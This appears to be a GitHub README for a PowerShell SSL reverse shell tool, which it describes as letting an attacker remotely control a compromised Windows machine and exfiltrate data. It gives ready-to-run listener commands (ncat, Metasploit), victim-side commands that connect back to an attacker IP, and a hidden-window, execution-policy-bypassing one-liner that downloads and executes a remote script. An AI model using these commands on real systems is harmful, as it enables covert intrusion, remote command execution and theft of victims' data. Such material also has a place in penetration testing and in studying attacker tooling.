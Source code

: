 # PowerShell-SSL-ReverseShell
PowerShell SSL Reverse Shell is a reverse shell program written in PowerShell, which establishes a connection between the attacker's machine and the victim's machine using SSL communications. This tool can be used to remotely access a compromised system, allowing the attacker to execute commands and exfiltrate data from the victim's machine.

The code used to build "PowerShell SSL ReverseShell" is based on "Invoke-PowerShellTcp.ps1" from "samratashok/nishang," a popular collection of PowerShell scripts used for penetration testing and offensive security purposes and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell). The reverse shell program leverages the secure SSL protocol to establish a connection between the attacker and victim, ensuring that the communication between the two machines is encrypted and protected from interception by third parties.

## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ rlwrap ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShell -Reverse -IPAddress 192.168.254.226 -Port 4646

```

OR

```powershell

PS > powershell.exe -windowstyle hidden -ExecutionPolicy Unrestricted -nop -Command "IEX (New-Object Net.WebClient).DownloadString('https://<IP>/GetShellSSL.ps1')"

```
